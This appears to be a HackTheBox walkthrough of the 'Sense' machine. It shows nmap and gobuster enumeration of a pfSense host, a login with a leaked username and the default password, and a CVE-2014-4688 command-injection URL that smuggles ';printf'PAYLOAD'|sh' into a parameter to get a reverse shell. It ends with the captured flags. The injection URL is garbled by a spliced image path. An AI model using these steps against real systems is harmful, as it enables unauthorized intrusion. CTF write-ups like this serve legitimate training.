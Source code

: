 ```yaml
---
title: HackTheBox - Sense
date: 2021-01-19 21:50:04 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, FreeBSD, pfSense, gobuster, default credentials, searchsploit, CVE-2014-4688, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sense/Sense.png
---
```


## Foothold

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Sense-full-port-scan.txt 10.10.10.60
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/https?
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time
```

> **WARNING**: By default, `nmap` does only a SYN scan (only the first two parts of a TCP handshake &rarr; SYN, SYN/ACK, ACK). We can add `-sT` option to do a full TCP scan. Doing just a SYN scan speeds things up. The downside is that if firewall products notice that you never completing the whole handshake, it may flag you as a bot and block you.

### lighttpd/1.4.35 (ports 80 & 443)

![pfSense](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sense/80.png)

It looks like an old pfSense login page.

#### `gobuster`

```bash
$ gobuster dir -u https://10.10.10.60 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x .txt -k
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.60
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt
[+] Timeout:        10s
===============================================================
2021/01/19 18:13:18 Starting gobuster
===============================================================
/themes (Status: 301)
/css (Status: 301)
/includes (Status: 301)
/javascript (Status: 301)
/changelog.txt (Status: 200)
/classes (Status: 301)
/widgets (Status: 301)
/tree (Status: 301)
/shortcuts (Status: 301)
/installer (Status: 301)
/wizards (Status: 301)
/csrf (Status: 301)
/system-users.txt (Status: 200)
/filebrowser (Status: 301)
/%7echeckout%7e (Status: 403)
===============================================================
2021/01/19 19:30:07 Finished
===============================================================
```

We can take a look at the two txt files.

> **TIP**: If we use `nikto`, the firewall blocks our IP address. Probably due to some brute-force. An advice, consider bigger wordlists like `/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt` rather than `/usr/share/wordlists/seclists/Discovery/Web-Content/common.txt` before running scanners like nikto.

#### `/changelog.txt`

![changelog.txt](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sense/80-changelog.png)

Considering these notes, we'll probably have to exploit a vulnerability on pfSense. 

#### `/system-users.txt`

![system-users.txt](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sense/80-system-users.png)

PfSense default password (source: https://pfsense-docs.readthedocs.io/en/latest/usermanager/pfsense-default-username-and-password.html):

![PfSense default password](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sense/default_pass.png)

Now we have some credentials:
- **username**: `rohit`
- **password**: `pfsense`

#### pfSense dashboard

![](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sense/80-release.png)

We can see pfSense version number: `2.1.3`.

## Exploitation

Let's take a look at searchsploit:

![searchsploit](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sense/searchsploit.png)

![exploit](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sense/exploit.png)

This exploit just run a reverse shell bash command via the following URL:

`https://10.10.10.160/status_rrd_graph_https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sense.php?database=queues;printf'PAYLOAD'|sh`

![payload](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sense/payload.png)

- Flags:

```console
$ cat /root/root.txt
d08c32a5d4f8c8b10e76eb51a69f1a86
$ cat /home/rohit/user.txt
8721327cc232073b40d27d9c17e7348b
```
___

## Useful links

- [pfSense < 2.1.4 - 'status_rrd_graph_https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sense.php' Command Injection ](https://www.exploit-db.com/exploits/43560)
- [CVE-2014-4688](https://nvd.nist.gov/vuln/detail/CVE-2014-4688)